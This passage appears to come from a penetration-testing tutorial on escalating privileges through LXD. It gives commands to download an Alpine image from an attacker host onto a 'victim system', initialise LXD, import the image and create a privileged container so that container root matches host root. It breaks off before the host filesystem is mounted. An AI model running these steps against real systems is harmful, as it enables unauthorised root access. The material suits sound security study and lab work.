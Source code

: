 Transfer the file to the victim system:

```bash
wget 10.10.10.11/alpine-vx.xx-xxxxxxxxxxxxxxxxxxx.tar.gz
```

Now on the victim system we'll initialize LXD:

```bash
user@pwn:~$ lxd init

Would we like to use LXD clustering? (yes/no) [default=no]: Do we want to configure a new storage pool? (yes/no) [default=yes]: 
Name of the new storage pool [default=default]: 
Name of the storage backend to use (ceph, btrfs, dir, lvm, zfs) [default=zfs]: 
Create a new ZFS pool? (yes/no) [default=yes]: 
Would we like to use an existing empty block device (e.g. a disk or partition)? (yes/no) [default=no]: 
Size in GB of the new loop device (1GB minimum) [default=5GB]: 
Would we like to connect to a MAAS server? (yes/no) [default=no]: 
Would we like to create a new local network bridge? (yes/no) [default=yes]: 
What should the new bridge be called? [default=lxdbr0]: 
What IPv4 address should be used? (CIDR subnet notation, “auto” or “none”) [default=auto]: 
What IPv6 address should be used? (CIDR subnet notation, “auto” or “none”) [default=auto]: 
Would we like the LXD server to be available over the network? (yes/no) [default=no]: 
Would we like stale cached images to be updated automatically? (yes/no) [default=yes] 
Would we like a YAML "lxd init" preseed to be printed? (yes/no) [default=no]: 

```

We'll then import the LXD image:

```bash
user@pwn:~$ lxc image import ./alpine-vx.xx-xxxxxxxxxxxxxxxx.gz --alias privesc
To start your first instance, try: lxc launch ubuntu:20.04

Image imported with fingerprint: xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx
```

If we have `UID=0` on the container then is going to match `UID=0` on the host:

```bash
user@pwn:~$ lxc init privesc privesc-container -c security.privileged=true
Creating privesc-container
```

After the container is created, we'll list the container:

```bash
user@pwn:~$ lxc list                     
+-------------------+---------+------+------+-----------+-----------+
|       NAME        |  STATE  | IPV4 | IPV6 |   TYPE    | SNAPSHOTS |
+-------------------+---------+------+------+-----------+-----------+
| privesc-container | STOPPED |      |      | CONTAINER | 0         |
+-------------------+---------+------+------+-----------+-----------+
```

Then we'll mount the host root file system to the `/mnt` directory in the container:
